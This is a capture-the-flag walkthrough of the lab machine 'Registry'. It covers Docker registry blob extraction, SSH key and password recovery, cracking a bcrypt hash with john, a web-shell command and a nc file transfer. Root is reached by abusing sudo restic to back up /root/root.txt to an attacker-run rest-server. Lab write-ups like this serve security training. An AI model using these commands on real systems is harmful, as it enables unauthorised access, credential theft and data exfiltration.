



## Registry | IP: 10.10.10.159

### Enumeration

##### Services

- 22
	+ OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80
	+ nginx 1.14.0 (Ubuntu)
- 443
	+ http-server-header: nginx/1.14.0 (Ubuntu)
	+ http-title: Welcome to nginx!
	+ ssl-cert: Subject: commonName=docker.registry.htb

##### Information Disclosure

Ran `dirbuster`. Got a directory ``http://docker.registry.htb/v2`. Login with `admin:admin`. 

Now this showed me a blank JSON response. Checked the response headers and found an interesting header.



Same could be identified with,



And yes, there exists a deadly exploit for that - https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/

### Exploiting Docker registry v2

> Follow: https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/  
> 
> We can use: https://github.com/NotSoSecure/docker_fetch/ for automation

1. Let's go to http://docker.registry.htb/v2/_catalog, we only get 1 repository.
2. Go to http://docker.registry.htb/v2/bolt-image/tags/list. There's only one tag called *latest*. 
3. We'll download the Manifest file to view the blobs. Here's the URL to do it: http://docker.registry.htb/v2/bolt-image/manifests/latest
4. Once we have a list of blobs, we can download each blob using the endpoint: `v2/blobs/sha256:<>/` 
5. This will download a gzipped file for each commit (or let’s say, configurational changes in base image) one blob is assigned).

## Owning User

- After each blob has been extracted, on running `grep -r ssh`, we found 3 interesting files:  
	+ `01-ssh.sh` - we got a password string: `GkOcz221Ftb3ugog`.
	+ `id_rsa`
	+ `id_rsa.pub`


```
local$ ssh -i id_rsa bolt@10.10.10.159 
# Enter password on prompt
bolt@bolt:~$ cat user.txt 
[------------------------]ywzi
```

## User 2

```
bolt@bolt:/var/www/html$ cat backup.php 
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

The `restic` command looks interesting.   
  
On looking further,

```
bolt@bolt:~$ l /var/www/html/bolt/app/database/
total 300
drwxrwxr-x 2 www-data www-data   4096 Mar  2 16:37 .
drwxrwxr-x 9 www-data www-data   4096 Oct 21 10:04 ..
-rw-r--r-- 1 www-data www-data 294912 Mar  2 16:41 bolt.db
```

Transfer this file to our local machine, then using `sqlitebrowser`, we get a set of credentials,

```
admin:$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```

Pass it to `john`, we get 


```
admin:strawberry
```

These are the credentials for the web-app situated at http://registry.htb/bolt/bolt/ (identified by dirbuster)


### Root

> Exploit: https://www.exploit-db.com/exploits/46664
> 
> Read docs of restic: https://github.com/restic/restic
> 
> Used `rest-server`: https://github.com/restic/rest-server

Transfer,

```
local$ nc 10.10.10.159 4000 -w 3 < rest-server 
bolt@bolt:/tmp$ nc -nvlp 4000 > rest-server
bolt@bolt:/tmp$ chmod +x rest-server
bolt@bolt:/tmp$ restic init --repo mypwnrepo
# Set password="password" on prompt
bolt@bolt:/tmp$ ./rest-server --path mypwnrepo/ --no-auth --listen :6969
```

Finally,

```
shell.php?cmd=echo "password" > pass.txt 
shell.php?cmd=sudo /usr/bin/restic backup -r rest:http://0.0.0.0:6969/ /root/root.txt --password-file pass.txt
```

```
bolt@bolt:/tmp$ tar czf mypwnrepo.tar.gz mypwnrepo
```

Then, we can transfer the repo to our local machine, and recover the flag from it,

```
local$ restic -r mypwnrepo dump latest root.txt
enter password for repository: 
repository 508d1eb2 opened successfully, password is correct
[---------------------]ztgw
```

#### Pwned

